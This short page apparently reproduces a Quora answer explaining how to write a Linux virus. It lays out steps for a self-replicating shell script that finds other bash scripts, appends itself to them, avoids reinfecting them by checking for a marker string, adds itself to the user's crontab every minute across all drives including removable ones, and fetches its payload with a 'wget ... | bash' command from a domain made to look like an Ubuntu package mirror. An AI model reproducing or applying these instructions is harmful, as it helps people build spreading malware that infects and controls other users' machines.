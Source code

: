 https://www.quora.com/How-can-I-make-a-virus-from-Linux/answer/Aravind-Reddy-V

How:

* Write a shell script that recursively searches for shell scripts in a disk. [.sh extension or #!/bin/bash at start]
* Decide on a very particular string. When a file is a bash script, search for  the decided on string and if it’s not found, add all the contents of your script to the target script. cat $0 >> target.sh 
* The string is so that we don't have multiple copies of our script in a file.
* Now, whenever the infected script is executed, our code is also run.
* Add the script to user’s cronjob and make it run once every minute and run on all disks including removable drives. You can programatically add a cronjob (https://stackoverflow.com/questions/4880290/how-do-i-create-a-crontab-through-a-script).
Now, you don't want your code to be sticking out of the infected file and be detected. Keep the bulk of your code remote.
wget -O - http://fake-apt-ubuntu-com.com/file | bash

